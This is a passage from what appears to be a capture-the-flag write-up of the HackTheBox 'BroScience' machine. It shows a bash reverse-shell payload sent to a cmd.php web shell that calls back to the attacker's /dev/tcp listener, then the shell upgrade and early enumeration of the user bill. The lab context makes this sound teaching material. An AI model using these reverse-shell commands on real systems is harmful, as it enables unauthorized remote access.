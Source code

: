 ![image-20230330204056872](/img/image-20230330204056872.png)

#### Shell

I’ll type out a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) into Firefox, URL encoding the `&` to `%26`:

```

https://broscience.htb/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'

```

On hitting enter, there’s a shell at my listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.195 44096
bash: cannot set terminal process group (1235): Inappropriate ioctl for device
bash: no job control in this shell
www-data@broscience:/var/www/html$

```

I’ll [upgrade the shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@broscience:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@broscience:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ;fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@broscience:/var/www/html$ 

```

## Shell as bill

### Enumeration

#### Home Directory

There’s one user with a home directory on the box, bill, and it has `user.txt`, but I can’t read it yet:

```

www-data@broscience:/var/www/html$ ls /home/
bill
www-data@broscience:/var/www/html$ ls /home/bill/
Certs    Documents  Music     Public     Videos
Desktop  Downloads  Pictures  Templates  user.txt
www-data@broscience:/var/www/html$ cat /home/bill/user.txt 
cat: /home/bill/user.txt: Permission denied

```
